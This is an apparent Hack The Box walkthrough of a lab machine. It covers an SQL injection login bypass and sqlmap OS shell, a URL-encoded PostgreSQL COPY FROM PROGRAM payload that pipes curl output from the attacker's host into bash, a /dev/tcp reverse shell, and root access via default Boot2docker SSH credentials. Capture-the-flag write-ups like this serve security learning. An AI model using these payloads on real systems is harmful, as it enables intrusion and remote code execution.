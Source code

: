 # Box 



![](img/Pasted%20image%2020210818104331.png)

https://www.hackthebox.eu/home/machines/profile/339

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.236 10.10.10.236
```

![](img/Pasted%20image%2020210819032959.png)

There is a domain name `admin.megalogistic.com`, let's add it to `/etc/hosts`. 

In this domain there is a website with a login page.

![](img/Pasted%20image%2020210819033205.png)

Let's try SQL Injection a basic payload. 
```
feff' or 1=1 -- as username
random as password
```

![](img/Pasted%20image%2020210819033449.png)

 ## Exploitation
 
That way we can bypass the login page but there is nothing interesting there.

Let's use `mysql` to get a shell. For this I used burp to save the request in a file.
```sh
sqlmap -r login_page.burp --os-shell --force-ssl
```

![](img/Pasted%20image%2020210819033620.png)

We can execute command so let's get a reverse shell. Before using my payload, I used burp to intercept the request used by `sqlmap` . If you do it directly in `sqlmap` it will timeout and you can loose your reverse shell. To use proxy with sqlmap add to the previous command `--proxy=http://127.0.0.1:8080`. 

Our request look like this : 
```
POST / HTTP/1.1
Content-Length: 319
Host: admin.megalogistic.com
Cookie: PHPSESSID=5499ca99fcf024d40c2859da211af01e
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://admin.megalogistic.com
Referer: https://admin.megalogistic.com/
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

username=fezfzf%27%3BDROP%20TABLE%20IF%20EXISTS%20sqlmapoutput%3BCREATE%20TABLE%20sqlmapoutput%28data%20text%29%3BCOPY%20sqlmapoutput%20FROM%20PROGRAM%20%27%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%33%3a%34%34%34%34%2f%72%65%76%65%72%73%65%2e%73%68%20%7c%20%62%61%73%68%27%3B--&password=dezaffe
```

I wrote a file called `reverse.sh` to execute on the remote machine using `curl`.

```sh
bash -c 'exec bash -i &>/dev/tcp/10.10.14.13/1234 <&1'
```

Let's decode the payload of the username parameter to know how the execution is done. 

input : 

```
fezfzf%27%3BDROP%20TABLE%20IF%20EXISTS%20sqlmapoutput%3BCREATE%20TABLE%20sqlmapoutput%28data%20text%29%3BCOPY%20sqlmapoutput%20FROM%20PROGRAM%20%27%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%33%3a%34%34%34%34%2f%72%65%76%65%72%73%65%2e%73%68%20%7c%20%62%61%73%68%27%3B--
```

output : 

```
fezfzf';DROP TABLE IF EXISTS sqlmapoutput;CREATE TABLE sqlmapoutput(data text);COPY sqlmapoutput FROM PROGRAM 'curl http://10.10.14.13:4444/reverse.sh | bash';--
```

Let's press send

![](img/Pasted%20image%2020210819034349.png)

## Post-Exploitation

### User

Well it seems that our user.txt file is in the directory so we already have our user.

![](img/Pasted%20image%2020210819034712.png)

To root. 


### Root

Let's see what we have in the box : 

![](img/Pasted%20image%2020210819034837.png)

There is a `.dockerenv` file so we are in a docker. It was expected since it is a Windows box. For the vulnerability we can check our current name.

![](img/Pasted%20image%2020210819035325.png)

Boot2docker is used to run Docker container. Reading the github we can see that we can log in with ssh.

| User | Password |
| ----- | --------- | 
| docker | tcuser |

Let's check our ip address.

![](img/Pasted%20image%2020210819034948.png)

Our machine is configured with a netmask of /16 and it ends with .2 so let's try with .1 

`ssh docker@172.17.0.1`

![](img/Pasted%20image%2020210819035754.png)

The C folder should be mounted at the root of the machine. 

![](img/Pasted%20image%2020210819035846.png)

From here we can read anything.

![](img/Pasted%20image%2020210819035912.png)

Rooted.